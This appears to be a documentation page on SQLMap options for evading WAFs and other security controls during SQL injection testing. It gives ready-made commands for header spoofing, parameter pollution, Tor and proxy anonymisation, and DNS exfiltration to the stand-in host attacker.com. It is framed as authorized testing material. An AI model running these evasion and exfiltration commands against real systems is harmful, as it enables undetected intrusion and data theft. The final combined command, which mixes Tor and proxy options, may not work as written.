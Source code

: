 ```yaml
---
title: Other Evasion Methods
description: Learn about additional evasion techniques in SQLMap to bypass security controls
---
```


# Other Evasion Methods

Beyond tamper scripts and WAF detection, SQLMap offers several additional methods to evade detection during security testing. These techniques can help bypass various security controls when used appropriately in authorized testing scenarios.

## HTTP Parameter Manipulation

### Parameter Pollution

Using multiple instances of the same parameter:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="id=1&id=2" --param-del="&"
```

This technique can confuse some security filters that don't properly handle parameter pollution.

### Parameter Reordering

Changing the order of HTTP parameters:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="b=2&a=1&c=3" --param-del="&"
```

Some WAFs may only inspect the first few parameters or expect parameters in a specific order.

## HTTP Header Manipulation

### Custom Headers

Adding custom HTTP headers:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --headers="X-Forwarded-For: 127.0.0.1\nX-Custom-Header: Value"
```

This can bypass security controls that trust certain headers or don't inspect custom headers.

### Host Header Manipulation

Modifying the Host header:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --host="internal-system.local"
```

This can bypass security controls that rely on the Host header for validation.

## Request Method Switching

### Method Switching

Changing the HTTP method:

```bash
sqlmap -u "http://www.example.com/vuln.php" --data="id=1" --method=PUT
```

Some security controls may only inspect GET and POST requests but not other HTTP methods.

### Method Obfuscation

Using non-standard HTTP methods:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --method=CUSTOM
```

This can sometimes bypass security controls that only check standard HTTP methods.

## Traffic Routing and Proxying

### Multiple Proxies

Routing through multiple proxies:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --proxy="http://proxy1:8080" --proxy-cred="user:pass" --proxy-file="proxies.txt"
```

The `--proxy-file` option allows you to specify a list of proxies to rotate through.

### Tor Network

Routing through the Tor network:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tor --tor-port=9050 --tor-type=SOCKS5 --check-tor
```

This routes all SQLMap traffic through the Tor network, making it harder to trace and potentially bypassing IP-based restrictions.

## Timing and Rate Controls

### Request Delays

Adding random delays between requests:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --delay=2 --time-sec=10
```

This adds a 2-second delay between requests and sets a 10-second time for time-based blind injections.

### Throttling

Limiting the number of concurrent threads:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --threads=1
```

This can help avoid triggering rate-limiting mechanisms.

## Payload Obfuscation

### Inline Comments

Using inline comments in SQL statements:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --prefix="'/*" --suffix="*/--" --technique=B
```

This adds specific SQL comments before and after the injection payload.

### Custom Prefix and Suffix

Adding custom strings before and after the payload:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --prefix="\)" --suffix="AND\(1=1"
```

This helps when the injection point is within a specific SQL context.

## Advanced Techniques

### Out-of-Band Exploitation

Using out-of-band channels for data exfiltration:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --dns-domain=attacker.com
```

This uses DNS requests for data exfiltration, which may bypass controls that only monitor HTTP traffic.

### Second-Order Injection

Testing for second-order SQL injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --second-url="http://www.example.com/page.php?id=1" --second-req="second-request.txt"
```

This tests for vulnerabilities where the injection is stored and then executed in a different location.


## Combining Evasion Techniques

For maximum effectiveness, combine multiple evasion techniques:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --random-agent --tamper=between,charencode,randomcase --delay=2 --tor --proxy="http://proxy:8080" --level=5 --risk=3
```

This comprehensive approach combines:
- Random user agent
- Multiple tamper scripts
- Request delays
- Tor routing
- Additional proxy
- Maximum test level and risk
